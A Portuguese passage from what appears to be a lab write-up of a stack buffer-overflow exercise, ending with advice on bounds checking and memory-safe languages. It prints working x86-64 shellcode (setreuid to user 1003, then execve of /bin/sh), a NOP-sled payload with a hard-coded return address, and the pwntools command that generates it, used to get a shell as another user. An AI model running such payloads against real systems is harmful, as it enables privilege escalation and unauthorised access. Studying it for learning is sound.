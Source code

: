 Além disso, adicionaremos um pedaço de código para alterar o nosso id para o id do user3 (usando o mesmo código `id -u user3` para encontrá-lo).

<img width="559" height="178" alt="image" src="https://github.com/user-attachments/assets/2e78f884-d2ef-4fcb-8731-982d978ac729" />

O código adicionado para mudar o id do user será novamente: `pwn shellcraft -f d amd64.linux.setreuid 1003`

E então, devemos encontrar o código shell novamente como foi feito no outro exercício.

`run $(python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + 'B' * 6)")`

<img width="931" height="786" alt="image" src="https://github.com/user-attachments/assets/df775898-6750-4878-9cb8-4aac33e8d4f0" />

Sabendo onde o código começa, é possível usar o mesmo endereço de registro: 0x7fffffffe298, traduzido para \x98\xe2\xff\xff\xff\x7f.

Por fim, basta substituir no payload e executar o binário com esse endereço para encontrarmos o shell como user3.

`python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + '\x98\xe2\xff\xff\xff\x7f')"`

Acessando novamente o arquivo `secret.txt` usando o comando `cat` e estando conectado como user3 temos:

>`wowanothertime!!`

## Conclusão

É muito importante entender como essa falha implica em corrupção de dados, execução de código arbitrário pelo atacante ou até mesmo a perda de controle de acesso ao sistema.

Para evitar que isso aconteça, a prevenção envolve boas práticas como:

* Verificação de limites: Sempre verificar o tamanho da entrada antes de escrevê-la no buffer para garantir que ela não exceda a capacidade.
* Linguagens seguras: Usar linguagens de programação que oferecem proteção automática contra acesso indevido à memória.
